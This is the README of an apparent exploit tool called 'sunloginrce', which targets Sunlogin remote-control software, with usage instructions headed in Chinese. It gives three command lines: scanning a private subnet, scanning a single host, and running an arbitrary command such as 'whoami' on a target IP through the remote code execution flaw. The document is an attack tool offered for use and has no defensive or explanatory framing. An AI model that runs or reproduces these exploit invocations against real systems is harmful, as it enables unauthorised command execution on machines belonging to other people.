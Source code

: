# sunloginrce
## 使用说明
#### python3 sunloginrce.py -s 192.168.10.0/24
#### python3 sunloginrce.py -s 192.168.10.20
#### python3 sunloginrce.py -i 192.168.10.20 -c "whoami"
